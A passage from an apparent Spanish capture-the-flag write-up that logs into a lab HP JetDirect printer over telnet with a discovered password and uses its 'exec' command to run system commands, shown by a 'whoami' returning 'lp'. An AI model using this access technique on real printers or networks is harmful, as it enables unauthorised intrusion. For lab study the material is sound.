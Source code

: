 Y después de probar un rato con varias posibilidades, se descubre que la contraseña es **P@ssw0rd@123!!123**.

```bash
telnet 10.10.11.107 23

Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect


Password: P@ssw0rd@123!!123

Please type "?" for HELP
> 
```
{: .nolineno}

Ahora se pueden revisar qué comandos están habilitados dentro del equipo con el comando **?**


```bash
To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```
{: .nolineno}


Dentro de los comandos que se pueden utilizar, se puede ver algo llamativo, que es el comando **exec** que permite ejecutar comandos directamente en el sistema.


```bash
> exec whoami
lp
```
{: .nolineno}
